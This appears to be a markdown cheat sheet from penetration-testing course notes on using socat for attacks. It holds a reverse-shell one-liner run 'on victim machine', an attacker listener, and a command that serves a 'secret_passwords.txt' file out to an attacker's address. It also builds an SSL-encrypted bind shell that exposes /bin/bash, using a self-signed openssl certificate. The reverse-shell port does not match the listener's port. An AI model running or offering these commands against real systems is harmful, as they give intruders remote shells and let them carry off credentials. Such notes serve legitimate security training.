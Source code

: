 ### REVERSE SHELL
On Victim Machine
```bash
socat tcp-connect:127.0.0.1:443 exec:/bin/sh,pty,stderr,setsid,sigint,sane
```
On Attacker Machine
```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

### File Transfers
On victim machine:
```bash
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```
On Attacker machine
```bash
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Encrypted Communication
You can use the openssl application to create a self-signed certificate using the following options:

-   req: initiate a new certificate signing request
-   -newkey: generate a new private key
-   rsa:2048: use RSA encryption with a 2,048-bit key length.
-   -nodes: store the private key without passphrase protection
-   -keyout: save the key to a file
-   -x509: output a self-signed certificate instead of a certificate request
-   -days: set validity period in days
-   -out: save the certificate to a file

Once we generate the key, we will cat the certificate and its private key into a file, which we will eventually use to encrypt our bind shell.

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
Generating a 2048 bit RSA private key
.....................+++
................................+++
writing new private key to 'bind_shell.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:Georgia
Locality Name (eg, city) []:Atlanta
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Offsec
Organizational Unit Name (eg, section) []:Try Harder Department
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
kali@kali:~$ cat bind_shell.key bind_shell.crt > bind_shell.pem
```

After generate the pem file we proceed to execute the bind shell over SSL
```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

Connect to an SSL connection:
```bash
socat - OPENSSL:10.11.0.4:443,verify=0
```